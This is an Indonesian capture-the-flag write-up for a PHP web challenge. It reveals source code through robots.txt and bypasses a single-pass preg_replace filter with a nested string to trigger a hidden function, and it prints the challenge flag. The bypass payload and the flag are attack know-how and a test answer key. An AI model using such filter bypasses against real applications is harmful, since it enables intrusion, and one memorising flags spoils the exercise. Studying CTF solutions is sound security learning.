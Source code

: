 # Valo Ez 🔫

## Description

well done

http://20.205.238.7:10812

Author: masse#6385

## Hint

- robot 🤖

## Solve

1. Buka route `/robots.txt`. Hasil sebagai berikut:

    ```txt
    Disallow: *
    Source Code: ?source
    ```

2. Lihat source website dengan menambahkan query args `?source`. Hasil sebagai berikut:

    ```php
    <?php ini_set('display_errors', 0); require("flag.php");$uOabXJZcby = $_GET;isset($uOabXJZcby['source']) && highlight_file(__FILE__) && die();$AZdGZTkLND = $uOabXJZcby[base64_decode("YW5pbWVfaXNfYmFl")];$qTDbcfkdvI = base64_decode('aGVsbG90aGVyZWhvb21hbg==');$oupmkQSUdM = preg_replace("/$qTDbcfkdvI/", '', $AZdGZTkLND);$oupmkQSUdM === $qTDbcfkdvI && super_secret_function(); ?>

    <!DOCTYPE HTML>
    <html>

    <head>
      <title>VALORANT</title>
    </head>

    <body>
      <h1 style="color:red;">hallow motherf*cker!!!</h1>
      <img src="https://cyberpost.co/wp-content/uploads/2021/01/Valorant-Cheaters-More-Bans-1024x576.jpg" alt="">
      <br>
      <p>today im very f****ng mad because of valorant banned me for 1 week, well!!!</p>
      <p>so i wanna you hack that f*****g riot</p>
      <small style="text-decoration: line-through;">The CSS is so weird, so I'm lazy to make it</small>

    </body>

    </html>
    ```
  
3. Analisa source code

    - Variable `$uOabXJZcby` adalah alias dari `$_GET`
    - Mengambil nilai `anime_is_bae` (*YW5pbWVfaXNfYmFl*) dari query args
    - Melakukan replace value `hellotherehooman` (*aGVsbG90aGVyZWhvb21hbg==*) dari nilai `anime_is_bae` dengan string kosong menggunakan function `preg_replace()`
    - Mengecek value akhir dari nilai `anime_is_bae` adalah `hellotherehooman`, jika valid akan dipanggil function `super_secret_function()`

4. Exploit

    Function `preg_replace` melakukan replacing secara utuh kata `hellotherehooman`, jadi kita bisa melakukan bypass dengan menggunakan teknik prefix dan suffix yang valid dari kata `hellotherehooman` agar nilai akhirnya tetap menjadi `hellotherehooman`.

    Solver sebagai berikut:

    `<url>?anime_is_bae=hellohellotherehoomantherehooman`


## Flag

**KWCTF{TERIMAKASIH_INFO_VALORANT_MANIA_INVITE_JAV mason#eng}**